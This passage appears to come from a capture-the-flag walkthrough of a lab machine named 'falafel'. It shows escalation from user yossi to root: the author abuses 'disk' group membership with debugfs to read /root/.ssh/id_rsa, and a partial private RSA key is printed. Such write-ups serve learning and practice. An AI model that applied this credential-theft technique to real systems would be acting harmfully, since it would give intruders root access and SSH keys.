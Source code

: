 ```bash


Last login: Fri Mar  7 08:14:46 2025
yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
yossi@falafel:~$ whoami
yossi
```

Now I have `yossi`'s shell!



# Shell as `root`

### Enumeration

Let's check `yossi`'s group membership again.

```bash
yossi@falafel:~$ groups
yossi adm disk cdrom dip plugdev lpadmin sambashare
```

Among the groups, `disk` group is listed on the same [article](https://book.hacktricks.wiki/ko/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#disk-group) as `video`.
According to the article, this membership allows user to access all data on the machine like `root`.

### Privesc via `disk` group membership

First, let's check where `/` located : `/dev/sda1`

```bash
yossi@falafel:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            460M     0  460M   0% /dev
tmpfs            99M  8.0M   91M   9% /run
/dev/sda1       3.4G  2.5G  806M  76% /
tmpfs           493M  7.2M  486M   2% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           493M     0  493M   0% /sys/fs/cgroup
tmpfs            99M     0   99M   0% /run/user/1000
tmpfs            99M     0   99M   0% /run/user/1001
```

Then, using `debugfs`, I can access to `/root/.ssh/id_rsa`.

```bahs
yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.44.1 (24-Mar-2018)
debugfs:  cd /root
debugfs:  ls
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
```